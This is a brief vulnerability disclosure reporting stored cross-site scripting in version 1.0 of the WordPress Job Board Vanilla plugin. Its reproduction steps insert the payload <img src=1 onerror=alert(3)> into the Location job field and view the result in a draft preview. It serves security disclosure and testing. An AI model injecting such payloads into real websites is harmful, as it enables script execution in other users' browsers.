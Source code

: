 # Exploit Title: WrodPress  Job Board Vanila Plugin——Stored Cross-Site Scripting
# Exploit Author: Thinkland Security Team
# Vendor Homepage: https://wordpress.org/plugins/job-board-vanilla/
# Version :  V 1.0
# Vulnerability Type: Stored Cross-Site Scripting
# Tested on Windows 10 、XAMPP
# Vulnerability proof：  
1. Jobs 》Add New 》Job Fields 》Location ,insert the xss payload <img src=1 onerror=alert(3)>
![image](https://github.com/BigTiger2020/word-press/blob/main/Job%20Board%20Vanila%20Plugin-1.png)  
2. Click Save Draft,go to  http://192.168.50.200/wordpress/?post_type=job&p=3269&preview=true
![image](https://github.com/BigTiger2020/word-press/blob/main/Job%20Board%20Vanila%20Plugin-2.png)  
3.Vulnerability proof:
![image](https://github.com/BigTiger2020/word-press/blob/main/Job%20Board%20Vanila%20Plugin-1.gif)  
